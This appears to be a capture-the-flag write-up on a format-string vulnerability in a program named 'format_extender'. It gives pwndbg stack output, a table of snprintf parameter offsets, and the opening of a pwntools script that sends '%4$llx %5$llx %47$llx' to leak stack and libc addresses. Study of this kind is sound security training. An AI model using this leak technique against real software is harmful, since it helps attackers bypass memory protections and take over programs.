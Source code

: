 First, we need to very closely understand the stack layout when the `snprintf()` function
is called. Setting a `break *(better_printf+682)` in pwndbg and running `stack 50 -4` we get:


```bash
04:0020│ rsp 0x7fff98681240 —▸ 0x562b941d4060 (user_input)
05:0028│-098 0x7fff98681248 —▸ 0x7fff98681300 ◂— '0x%51$llx 0x%47$llx 0x%48$llx'
(...)
16:00b0│-010 0x7fff986812d0 —▸ 0x562b941d3d50 (__do_global_dtors_aux_fini_array_entry)
(...)
19:00c8│+008 0x7fff986812e8 —▸ 0x562b941d1ad9 (main+336)
(...)
             0x7fff986812fc ◂— <<< the 32-bit i variable is here >>>
1c:00e0│ rdx 0x7fff98681300 ◂— '0x%51$llx 0x%47$llx 0x%48$llx'
1d:00e8│+028 0x7fff98681308 ◂— 'x 0x%47$llx 0x%48$llx'
1e:00f0│+030 0x7fff98681310 ◂— 'llx 0x%48$llx'
1f:00f8│+038 0x7fff98681318 ◂— '8$llx'
20:0100│+040 0x7fff98681320 ◂— 0
(...)
2f:0178│+0b8 0x7fff98681398 —▸ 0x7fc621c2a1ca (__libc_start_call_main+122)
```

Note that the `-4` part of the `stack` command means that the leftmost hex number is the
**index of `snprintf` parameter** to be used in the format string. Specifically:

| Pos. | Format string | Description                              |
|------|---------------|------------------------------------------|
| 0x04 | `%4$llx`      | `user_input`                             |
| 0x05 | `%5$llx`      | Pointer to the format string below.      |
| 0x16 | `%22$llx`     | `__do_global_dtors_aux_fini_array_entry` |
| 0x19 | `%25$llx`     | `main+336`                               |
| 0x1c | `%28$...`     | Starts the format string                 |
| 0x2f | `%47$llx`     | `__libc_start_call_main+122`             |

Additionally, `%5$llx - 4` will point to the 32-bit `i` loop counter.

## The code

Initialize `pwn`

```python
import pwn
pwn.context(arch='amd64', os='linux', encoding='ascii', log_level='warning')
io = pwn.process('./format_extender_patched')
```

Extract offsets for: `user_input`, `i` and `__libc_start_call_main`

```python
io.recvuntil("Enter format specifier > ")
io.sendline("0x%4$llx 0x%5$llx 0x%47$llx")

io.recvuntil("Enter your input > ")
io.sendline("")

io.recvuntil("Result: ")
s = io.recvline().decode("utf-8").split(" ")

user_input = int(s[0], 16)
i = int(s[1], 16) - 4
libc_start_call_main = int(s[2], 16) - 122
```
